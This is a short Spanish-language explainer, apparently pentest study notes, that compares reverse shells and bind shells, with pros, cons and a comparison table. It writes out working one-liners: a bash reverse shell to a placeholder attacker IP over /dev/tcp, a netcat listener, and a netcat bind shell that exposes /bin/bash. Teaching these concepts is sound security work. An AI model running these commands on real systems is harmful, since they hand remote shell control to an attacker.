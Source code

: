 ## **Shell Reversa vs Bind Shell – Diferencias**

---

### 🌀 **1. Shell Reversa (Reverse Shell)**

#### 🔁 ¿Qué es?

En una **shell reversa**, **la víctima se conecta al atacante**. El atacante abre un **listener** y espera a que el equipo comprometido le envíe una conexión.

#### 📌 ¿Cómo funciona?

- El atacante **espera** la conexión con `nc -lvnp 4444`.
    
- La víctima ejecuta un comando que **se conecta a la IP del atacante**, por ejemplo:
    
    bash
    
    CopiarEditar
    
    `bash -i >& /dev/tcp/ATACANTE_IP/4444 0>&1`
    

#### ✅ Ventajas:

- Más fácil de evadir **firewalls** (salidas están abiertas normalmente).
    
- El atacante no necesita exponer puertos.
    

#### ❌ Desventajas:

- Requiere que la víctima **pueda hacer conexiones salientes**.
    

---

### 🔒 **2. Bind Shell**

#### 📶 ¿Qué es?

En una **bind shell**, la víctima **abre un puerto** y el atacante se conecta directamente a ese puerto.

#### 📌 ¿Cómo funciona?

- La víctima ejecuta un servicio como:
    
    bash
    
    CopiarEditar
    
    `nc -lvp 4444 -e /bin/bash`
    
- El atacante se conecta con:
    
    bash
    
    CopiarEditar
    
    `nc VICTIMA_IP 4444`
    

#### ✅ Ventajas:

- Fácil de implementar si **no hay firewalls** o restricciones.
    

#### ❌ Desventajas:

- Muchas veces los **firewalls bloquean conexiones entrantes**.
    
- Puede ser más **detectable**.
    

---

### ⚔️ Comparación Directa:

|Característica|Reverse Shell 🌀|Bind Shell 🔒|
|---|---|---|
|¿Quién inicia la conexión?|Víctima → Atacante|Atacante → Víctima|
|Firewall friendly|✅ (más sigilosa)|❌ (puede ser bloqueada)|
|Configuración|Listener en atacante|Listener en víctima|
|Uso típico en pentest|Cuando la víctima tiene **salida a internet**|Cuando la víctima tiene **puertos abiertos**|

---

### 🛠 Herramientas comunes:

- `Netcat (nc)`
    
- `Metasploit (payloads como windows/meterpreter/reverse_tcp)`
    
- Scripts en Python, Bash, PowerShell